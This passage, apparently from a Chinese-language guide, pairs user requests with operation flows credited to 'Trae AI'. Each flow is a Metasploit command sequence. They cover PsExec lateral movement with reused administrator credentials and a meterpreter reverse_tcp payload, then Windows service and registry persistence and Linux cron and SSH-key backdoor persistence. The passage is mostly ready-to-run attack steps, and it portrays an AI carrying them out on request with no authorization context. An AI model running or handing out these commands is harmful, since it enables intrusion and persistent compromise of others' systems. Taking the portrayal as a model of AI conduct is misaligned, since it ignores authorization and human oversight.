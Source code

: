 ### 12. 憑據重用攻擊

**用戶提問：**
```
使用獲得的憑據攻擊其他系統
```

**Trae AI 操作流程：**
```
# 使用 PSExec 橫向移動
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.51
set SMBUser administrator
set SMBPass password123
set PAYLOAD windows/meterpreter/reverse_tcp
run
```

## 持久化

### 13. Windows 持久化

**用戶提問：**
```
在 Windows 系統上建立持久化訪問
```

**Trae AI 操作流程：**
```
# 創建服務持久化
use post/windows/manage/persistence_exe
set SESSION 1
set REXEPATH /root/backdoor.exe
set STARTUP SERVICE
run

# 註冊表持久化
use post/windows/manage/persistence
set SESSION 1
set DELAY 10
run
```

### 14. Linux 持久化

**用戶提問：**
```
在 Linux 系統上建立持久化機制
```

**Trae AI 操作流程：**
```
# Cron 任務持久化
use post/linux/manage/cron_persistence
set SESSION 1
set COMMAND "/tmp/backdoor"
set TIMING "@reboot"
run

# SSH 密鑰持久化
use post/linux/manage/sshkey_persistence
set SESSION 1
run
```
